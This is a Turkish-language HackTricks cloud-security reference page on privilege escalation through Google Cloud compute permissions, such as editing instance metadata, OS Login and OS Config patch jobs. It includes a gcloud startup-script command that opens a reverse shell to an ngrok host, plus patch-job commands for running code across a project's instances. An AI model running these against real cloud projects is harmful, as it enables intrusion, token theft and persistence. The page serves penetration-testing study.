 # GCP - Hesap Yükseltme

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hacklemeyi öğrenin!</summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
* 💬 **Discord grubuna** katılın](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da **takip edin**.
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## Hesaplama

Hesaplama ve VPC (ağ) hakkında daha fazla bilgi için GCP'de şu bağlantılara bakın:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
İşte tüm ayrıcalık yükseltme saldırılarını gerçekleştirmek için gereken ve örneğin yeni kullanıcılar ve SSH anahtarları eklemeyi gerektiren tüm saldırılar için **özelliği değiştirme izinlerine sahip olmanız gerektiğini** unutmayın, hatta SA zaten ekli olsa bile!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Bu izinle bir **örneğin metadata** bilgisini **değiştirebilir** ve **bir kullanıcının yetkili anahtarlarını değiştirebilir** veya **sudo yetkilerine sahip yeni bir kullanıcı oluşturabilirsiniz**. Bu nedenle, herhangi bir VM örneğine SSH üzerinden erişebilir ve örneğin çalıştığı GCP Hizmet Hesabını çalabilirsiniz.\
Sınırlamalar:

* VM örneklerinde çalışan GCP Hizmet Hesapları varsayılan olarak **çok sınırlı bir kapsama sahiptir**
* **SSH sunucusuna bağlanabilmelisiniz**.

Bu izni nasıl sömürüleceği hakkında daha fazla bilgi için şu bağlantılara bakın:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Bu saldırıyı yeni başlangıç betiği ekleyerek ve örneği yeniden başlatarak da gerçekleştirebilirsiniz:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Bu izin, bir bütün proje yerine belirli örnekler üzerinde aynı ayrıcalıkları verir. Önceki bölümde olduğu gibi aynı zafiyetler ve kısıtlamalar geçerlidir.

### `compute.instances.setIamPolicy`

Bu tür bir izin size önceki izinlerle kendinize rol verme ve ayrıcalıkları kötüye kullanarak ayrıcalıkları yükseltme olanağı sağlar.

### **`compute.instances.osLogin`**

Eğer örnekte **OSLogin etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak örneğe bağlanabilirsiniz. Örneğin içinde **root ayrıcalıklarınız olmayacak**.

{% hint style="success" %}
Bu izinle VM örneği içinde başarılı bir şekilde oturum açmak için, VM'ye bağlı SA üzerinde `iam.serviceAccounts.actAs` iznine sahip olmanız gerekir.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Eğer örnekte **OSLogin etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak örneğe bağlanabilirsiniz. Örneğin içinde **root ayrıcalıklarınız olacak**.

{% hint style="success" %}
Bu izinle VM örneği içinde başarılı bir şekilde oturum açmak için, VM'ye bağlı SA üzerinde `iam.serviceAccounts.actAs` iznine sahip olmanız gerekir.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Atanan bir Hizmet Hesabı ile bir sanal makine oluşturarak hizmet hesabının belirtecinin çalınması mümkündür ve ayrıcalıkları yükseltmek için bu belirteci kullanabilirsiniz.

Bu yöntemin zafiyet betiği [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) bulunabilir.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Eğer **`osconfig.patchDeployments.create`** veya **`osconfig.patchJobs.exec`** izinlerine sahipseniz, bir [yama işlemi veya dağıtımı](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) oluşturabilirsiniz. Bu, ortamda yanal hareket etmenizi ve bir projedeki tüm hesaplama örneklerinde kod yürütme yetkisi kazanmanızı sağlar.

Bu işlemi manuel olarak kötüye kullanmak istiyorsanız ya bir [yama işlemi](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) ya da [dağıtım](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) oluşturmanız gerekecektir:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Bir yama dağıtımı dağıtmak için:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

[patchy](https://github.com/rek7/patchy) gibi otomatik araçlar, gevşek izinleri tespit etmek ve otomatik olarak yanal hareket etmek için mevcuttur.

**Bu ayrıca kalıcılık için kötüye kullanılabilir.**

### `compute.machineImages.setIamPolicy`

Kendinize ekstra izinler vermek için bilgisayar Görüntüsüne izin verin.

### `compute.snapshots.setIamPolicy`

Bir disk anlık görüntüsüne ekstra izinler verin.

### `compute.disks.setIamPolicy`

Bir diske ekstra izinler verin.

### Erişim Kapsamlarını Atlatma

Bu bağlantıyı takip ederek [**erişim kapsamlarını atlamak için denenebilecek bazı fikirler**](../) bulabilirsiniz.

### GCP Hesaplama Örneğinde Yerel Ayrıcalık Yükseltme

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referanslar

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)
